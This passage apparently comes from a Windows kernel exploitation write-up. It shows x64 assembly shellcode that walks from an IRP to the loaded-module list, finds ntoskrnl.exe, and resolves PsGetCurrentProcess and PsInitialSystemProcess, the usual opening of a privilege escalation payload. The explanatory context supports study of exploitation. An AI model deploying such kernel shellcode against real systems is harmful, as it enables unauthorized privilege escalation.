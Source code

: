 From here, we only care about `InLoadOrderLinks` to traverse the list and `BaseDllName` to identify libraries.

In our shellcode, we can now make use of the `Irp` pointer to retrieve the `_DEVICE_OBJECT` pointer, and from it, the `DriverSection` field:


```Assembly
	; Get address of ntoskrnl.exe
	;   Get _KLDR_DATA_TABLE_ENTRY
	mov rax, [rbp]                      ; Irp
	mov rax, [rax + 0b8h]               ; Irp->CurrentStackLocation
	mov rax, [rax + 28h]                ; CurrentStackLocation->DeviceObject
	mov rax, [rax + 08h]                ; DeviceObject->DriverObject
	mov rax, [rax + 28h]                ; DriverObject->DriverSection  (DriverSection has type _KLDR_DATA_TABLE_ENTRY)
	
	;   Cycle through modules until we find ntoskrnl.exe
cycle_modules:
	mov rax, [rax]
	mov cx, [rax + 58h]                 ; KldrDataTablEntry->BaseDllName.Length
	cmp cx, 18h
	jne cycle_modules
	mov rcx, [rax + 58h + 8h]           ; KldrDataTablEntry->BaseDllName.Buffer
	mov r8, 0073006f0074006eh           ; U"ntos"
	cmp [rcx], r8
	jne cycle_modules
	
	mov rax, [rax+30h]                  ; KldrDataTablEntry->DllBase
	mov [rbp - 08h], rax

	; Get address of PsGetCurrentProcess
	call skip_PsGetCurrentProcess
	db "PsGetCurrentProcess", 0
skip_PsGetCurrentProcess:
	mov rdx, [rsp]
	mov rcx, [rbp - 08h]
	call kernel_shellcode_find_module_func
	add rsp, 08h
	mov [rbp - 10h], rax

	; Get address of PsInitialSystemProcess
	call PsInitialSystemProcess
	db "PsInitialSystemProcess", 0
PsInitialSystemProcess:
	mov rdx, [rsp]
	mov rcx, [rbp - 08h]
	call kernel_shellcode_find_module_func
	add rsp, 08h
	mov [rbp - 18h], rax

	; Call PsGetCurrentProcess
	mov rcx, [rbp - 10h]
	xor eax, eax
	call rcx
```
